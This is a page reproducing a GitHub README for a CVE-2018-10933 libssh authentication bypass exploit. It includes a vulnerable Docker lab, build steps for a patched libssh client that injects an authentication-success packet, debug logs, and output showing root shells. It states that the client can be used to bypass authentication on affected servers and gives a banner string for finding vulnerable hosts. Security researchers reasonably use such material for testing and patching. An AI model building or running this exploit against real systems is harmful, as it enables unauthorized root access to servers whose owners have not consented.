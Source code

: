 # cve-2018-10933

cve-2018-10933 libssh authentication bypass

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/hackerhouse-opensource](https://github.com/hackerhouse-opensource) |
| Url      | [https://github.com/hackerhouse-opensource/cve-2018-10933](https://github.com/hackerhouse-opensource/cve-2018-10933)                                               |
| Stars    | 101                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2018-10933 
CVE-2018-10933 libssh authentication bypass, a vulnerable Docker container that listens on port 2222
for exploitation. A basic proof-of-concept libssh patch included in the container to bypass auth. To login
use the default "myuser" / "mypassword" from libssh. A patch is applied to a copy of libssh in 
the Docker container which injects a SSH2_MSG_USERAUTH_SUCCESS packet during any authentication 
(keyboard-interactive / pubkey / gss-api etc.) attempt and sets the client side state to proceed. The
included server has been patched from example code to allow exploitation to succeed.

```
./build.sh
./run.sh
ssh -l myuser -p 2222 localhost
```

A patched exploit-libssh-0.8.3 and vulnerable sshd are available in the container for testing purposes.
The "ssh-client" will successfully bypass authentication but is unable to spawn a shell against the
default example server due to additional authentication checks in the server code. 

``` 
[root@305b48cb932e ]# cd /root/exploit-libssh-0.8.3/build/examples
[root@305b48cb932e examples]# ./ssh-client -l root 127.0.0.1
The server is unknown. Do you trust the host key (yes/no)?
SHA256:Mg6j2yHWMsRe56ABhAYjLIJK9yD2N3lGQAl3EfGqP7w
yes
This new key will be written on disk for further usage. do you agree ?
yes
Requesting shell : Channel request shell failed
[root@305b48cb932e examples]# 
```

From the advisory "malicious client could create channels without first performing authentication, resulting in unauthorized access."

The following libssh debug output shows authentication has succeeded on the server and a session
channel has been created. The host is now authenticated but additional server side checks prevent
commands being executed. An attacker could still attempt to tunnel/proxy connections through
the service.

```
[2018/10/19 01:26:24.929187, 3] ssh_packet_process:  Dispatching handler for packet type 52
[2018/10/19 01:26:24.929228, 3] ssh_packet_userauth_success:  Authentication successful
[2018/10/19 01:26:24.971901, 3] ssh_packet_socket_callback:  packet: read type 90 [len=44,padding=19,comp=24,payload=24]
[2018/10/19 01:26:24.971984, 3] ssh_packet_process:  Dispatching handler for packet type 90
[2018/10/19 01:26:24.972012, 3] ssh_packet_channel_open:  Clients wants to open a session channel
[2018/10/19 01:26:24.972057, 3] ssh_message_channel_request_open_reply_accept_channel:  Accepting a channel request_open for chan 43
[2018/10/19 01:26:24.972193, 3] ssh_socket_unbuffered_write:  Enabling POLLOUT for socket
[2018/10/19 01:26:24.972233, 3] packet_send2:  packet: wrote [len=28,padding=10,comp=17,payload=17]
```

Attempts to launch shells / exec or pty result in a successful session but errors on the example server due to an additional
checks on the user authentication state. The following errors are shown on the example server.

```
[2018/10/19 03:33:56.539864, 3] ssh_message_handle_channel_request:  Received a shell channel_request for channel (43:0) (want_reply=1)
[2018/10/19 03:33:56.539899, 3] ssh_message_channel_request_reply_default:  Sending a default channel_request denied to channel 0
```

It is still possible for bespoke libssh servers to potentially result in arbitrary code execution
but the majority may only allow tunneling or some misuse of SSH protocol. By removing the additional authentication check
the server is now vulnerable to the authentication bypass exploit. It is possible for a server side libssh implementation
to introduce this vulnerability. Example of a successful exploitation using patched libssh below.

```
[root@3a184714fd21]# cd /root/exploit-libssh-0.8.3/build/examples
[root@3a184714fd21 examples]# ./ssh-client -l root 127.0.0.1
The server is unknown. Do you trust the host key (yes/no)?
SHA256:DyYf8l6tjNc0kyUe5uE/Rt8vHI1SuhsVGbzOonzPlaY
yes
This new key will be written on disk for further usage. do you agree ?
yes
[root@3a184714fd21 /]# id
uid=0(root) gid=0(root) groups=0(root)
```

The Docker container will run the vulnerable "ssh_server_fork" example by default, the original can be found
in "libssh-0.8.3" directory for testing/debugging purposes. 

# Impacted Vendors
The following vendors appear to be practically impacted by this flaw due to their use of libssh.

* F5 https://support.f5.com/csp/article/K52868493
* Redhat https://access.redhat.com/security/cve/cve-2018-10933

libssh is installed locally on a number of *BSD & Linux distributions as is used by ffmpeg (?), hydra
and a small number of FOSS packages. 

# Exploit
You can build a patched libssh client from this repo for exploitation use.

```
git clone https://github.com/hackerhouse-opensource/cve-2018-10933
cd cve-2018-10933
xz -d libssh-0.8.3.tar.xz
tar -xvf libssh-0.8.3.tar
cd libssh-0.8.3
patch -p0 < ../cve-2018-10933.patch
mkdir build
cd build
cmake ..
make
```

You can then use "ssh-client" and any examples to bypass authentication on affected libssh server 
implementations.

```
$ ./ssh-client -l root 127.0.0.1 -p 2222
[root@8fec78903da2 /]# id
uid=0(root) gid=0(root) groups=0(root)
```

# Identification

Scanning for potentially vulnerable hosts can be performed simply by doing regular banner
grabbing on affected SSH ports (e.g. nmap). 
```
SSH-2.0-libssh_0.8.3
```

# Credits
The original advisory is in CVE-2018-10933.txt, vulnerability found by Peter Winter Smith. Vulnerable Docker
and libssh exploit patch released by Hacker House (https://hacker.house). 



## Get the content

```
git clone https://github.com/hackerhouse-opensource/cve-2018-10933
cd cve-2018-10933
```

{% embed url="https://github.com/hackerhouse-opensource/cve-2018-10933" %}

<figure><img src="https://avatars.githubusercontent.com/u/43967630?v=4" alt=""><figcaption><p>hackerhouse-opensource</p></figcaption></figure>
